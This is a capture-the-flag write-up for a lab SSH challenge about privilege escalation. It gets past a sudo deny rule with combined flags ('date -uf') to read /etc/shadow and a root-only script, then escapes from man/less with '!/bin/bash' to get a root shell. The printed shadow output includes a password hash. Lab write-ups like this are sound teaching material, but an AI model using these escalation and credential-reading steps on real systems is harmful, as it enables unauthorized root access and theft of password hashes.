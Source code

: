 # Day 22 - The date is near

- Category: Misc
- Difficulty: Medium
- Format: Privesc

## Description

The date is approaching ... Santa provides you with a server to connect to via SSH.

It seems he's left a flag in /root/. Will you be able to catch it?

The username is `sshuser` and the password is `password`.

## Writeup

**TLDR: SSH, Privesc, Date, Man**

We can connect to the SSH Server with the credentials.

We can list SUDO privileges as following :

```bash
$ sudo -l
Matching Defaults entries for sshuser on 70157be953ec:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty, !requiretty

User sshuser may run the following commands on 70157be953ec:
    (ALL) NOPASSWD: /bin/date *, !/bin/date *-f*, !/bin/date *--file*
    (ALL) NOPASSWD: /usr/bin/dev.sh
```

We can run date, but `-f` and `--file` seems blocked. Sadly for us, because `-f` allow to read files : 

- [https://gtfobins.github.io/gtfobins/date/](https://gtfobins.github.io/gtfobins/date/)

Indeed the command is not allowed if `-f` or `--file` is detected in the command

```bash
sshuser@the-date-is-near:~$ sudo /bin/date -f /etc/shadow
Sorry, user sshuser is not allowed to execute '/bin/date -f /etc/shadow' as root on the-date-is-near.
```

Then, we can run /usr/bin/dev.sh, but we don't have permission to read it. We can execute it but nothing happened.

```bash
$ cat /usr/bin/dev.sh
cat: /usr/bin/dev.sh: Permission denied
$ sudo /usr/bin/dev.sh
$
```

We can bypass the protetion on date by abusing bash argument concatenation. For example -a and -b can be short as -ab, this will help us to bypass the regex.

This mechanism can be used to bypass the mitigation blocking `-f` and `--file`. This results in `-uf` : 

```bash
$ sudo date -uf /etc/shadow
date: invalid date 'root:*:20059:0:99999:7:::'
date: invalid date 'daemon:*:20059:0:99999:7:::'
date: invalid date 'bin:*:20059:0:99999:7:::'
date: invalid date 'sys:*:20059:0:99999:7:::'
date: invalid date 'sync:*:20059:0:99999:7:::'
date: invalid date 'games:*:20059:0:99999:7:::'
date: invalid date 'man:*:20059:0:99999:7:::'
date: invalid date 'lp:*:20059:0:99999:7:::'
date: invalid date 'mail:*:20059:0:99999:7:::'
date: invalid date 'news:*:20059:0:99999:7:::'
date: invalid date 'uucp:*:20059:0:99999:7:::'
date: invalid date 'proxy:*:20059:0:99999:7:::'
date: invalid date 'www-data:*:20059:0:99999:7:::'
date: invalid date 'backup:*:20059:0:99999:7:::'
date: invalid date 'list:*:20059:0:99999:7:::'
date: invalid date 'irc:*:20059:0:99999:7:::'
date: invalid date '_apt:*:20059:0:99999:7:::'
date: invalid date 'nobody:*:20059:0:99999:7:::'
date: invalid date 'sshd:!:20079::::::'
date: invalid date 'sshuser:$y$j9T$zi0nU3b.AfYQd8bfmj3r91$iK9HOdKPY8Js7/S8/LtFUViDACdWChX1xLZ3N2ECiv4:20079:0:99999:7:::'
```

This is cool but not enough to flag because we don't know the filename of the flag.

But can can to this file read as root, we can read the weird script dev.sh

```bash
sudo date -uf /usr/bin/dev.sh
```

After a little parsing the script "dev.sh" is the following : 

```bash
#!/bin/bash

# Check if the --debugmyscript argument is present
if [[ "$1" != "--debugmyscript" ]]; then
    exit 0  # Exit silently if the --debugmyscript argument is not provided
fi

# Remove --debugmyscript from the argument list
shift

echo "Welcome to the dev.sh script!"

# Function to display help
function show_help {
    echo "Usage: $0 [options]"
    echo
    echo "Options:"
    echo "  -l            List all running processes."
    echo "  -d            Show available disk space."
    echo "  -m            Show the manual for the printf command."
    echo "  -h            Show this help message."
}

# Check if no arguments are provided after --debugmyscript
if [ $# -eq 0 ]; then
    echo "Error: No arguments provided."
    show_help
    exit 1
fi

# Process arguments
while getopts "ldmh" opt; do
    case $opt in
        l)
            echo "Listing running processes:"
            ps aux
            ;;
        d)
            echo "Displaying available disk space:"
            df -h
            ;;
        m)
            echo "Displaying the manual for printf:"
            man printf
            ;;
        h)
            show_help
            ;;
        *)
            echo "Invalid option."
            show_help
            exit 1
            ;;
    esac
done
```

The script contains a first argument `--debugmyscript` and if it's not present, it exits automatically.

It then takes another argument `-m` which allows man. Man indirectly launches the `less` binary, which is vulnerable to RCE by default.

Indeed man run less, which allow to run subprocesses.

We run the script to read man option :

```bash
$ sudo dev.sh --debugmyscript -m
```

Then, run /bin/bash in less command : 
- [https://superuser.com/questions/521399/how-do-i-execute-a-linux-command-whilst-using-the-less-command-or-within-the-man](https://superuser.com/questions/521399/how-do-i-execute-a-linux-command-whilst-using-the-less-command-or-within-the-man)

```bash
!/bin/bash
```

And we can get the flag in /root/ directory : 

```bash
root@the-date-is-near:/home/sshuser# cd
root@the-date-is-near:~# ls -la
total 20
drwx------ 1 root root 4096 Dec 22 10:19 .
drwxr-xr-x 1 root root 4096 Dec 22 14:45 ..
-rw-r--r-- 1 root root  571 Apr 10  2021 .bashrc
-rw-r--r-- 1 root root  161 Jul  9  2019 .profile
-rw------- 1 root root   27 Dec 22 10:19 flag-1a0a6a36ca0a3953b997ddaeb722cb31e9e421b038f6a67ef55593f21dcf92b1.txt
root@the-date-is-near:~# cat flag*
RM{S4NTA_IS_N0T_4DMIN_SYS}
```